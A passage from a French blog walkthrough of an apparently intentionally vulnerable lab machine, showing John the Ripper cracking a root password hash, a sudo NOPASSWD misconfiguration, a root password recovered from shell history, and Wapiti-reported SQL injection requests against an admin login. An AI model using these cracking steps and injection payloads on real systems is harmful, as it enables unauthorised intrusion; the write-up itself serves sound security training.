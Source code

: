 Le mot de passe se casse facilement :  

```plain
$ /opt/jtr/john --wordlist=mega_dict.txt  hash.txt 
Loaded 1 password hash (FreeBSD MD5 [128/128 AVX intrinsics 12x])
guesses: 0  time: 0:00:00:02 0.53% (ETA: Mon Jul  7 22:12:54 2014)  c/s: 35325  trying: 015922726 - 015924737
root1234         (root)
guesses: 1  time: 0:00:07:08 DONE (Mon Jul  7 22:13:45 2014)  c/s: 35408  trying: root12 - root162net725
```

Alternativement il est possible de passer root via le compte *achen*.  

Premièrement ce dernier a des accès encore plus ouverts (lancement de commandes en tant que root sans avoir à saisir le moindre mot de passe) :  

```plain
User achen may run the following commands on this host:
    (ALL) NOPASSWD: ALL
```

En plus dans son historique de commande on retrouve le mot de passe root :  

```plain
--- snip ---
sudo sy
su
root1234
su
--- snip ---
```

Autres vecteurs d'attaque web
-----------------------------

*Wapiti* a identifié une faille d'injection SQL dans la section */admin/* inutilement protégée par javascript :  

```plain
Injection MySQL dans http://192.168.1.99/admin/index.php via une injection dans le paramètre username
Evil request:
POST /admin/index.php HTTP/1.1
Host: 192.168.1.99
Referer: http://192.168.1.99/admin/
Content-Type: application/x-www-form-urlencoded

username=%BF%27%22%28&password=letmein

Injection MySQL dans http://192.168.1.99/admin/index.php via une injection dans le paramètre password
Evil request:
POST /admin/index.php HTTP/1.1
Host: 192.168.1.99
Referer: http://192.168.1.99/admin/
Content-Type: application/x-www-form-urlencoded

username=default&password=%BF%27%22%28
```

Il y a aussi la section */calendar/* plombée par d'autres injections SQL.  

Bref tout aussi simple que le précédent.

*Published July 08 2014 at 21:52*
